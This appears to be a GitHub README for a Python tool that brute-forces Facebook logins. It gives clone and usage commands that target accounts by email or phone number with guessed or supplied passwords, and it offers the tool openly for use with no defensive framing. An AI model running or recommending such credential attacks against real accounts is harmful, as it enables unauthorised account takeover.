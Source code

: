 ## Bruteforce and Bot Social Media
Open source of bruteforce web populars and bot.
#### Installation
```cli
git clone https://github.com/ferdiansyah0611/bruteforce-python
```
#### Usage
```cli
cd bruteforce-python
# Show Help (Include Argument)
python app.py --h
# Bruteforce Facebook
# with email
python app.py -e admin@server.com -c 1 -t a
# or
python app.py -e admin@server.com -c 1 -t m -p password12345
# with phone
python app.py -P 09999999999 -c 1 -t a
# or
python app.py -P 09999999999 -c 1 -t m -p password12345
```
#### Requirement Module
- Python v3
- bs4
- colorama
- termcolor
- requests
- socket
#### List Web Bruteforce
- Facebook
#### License
MIT LICENSE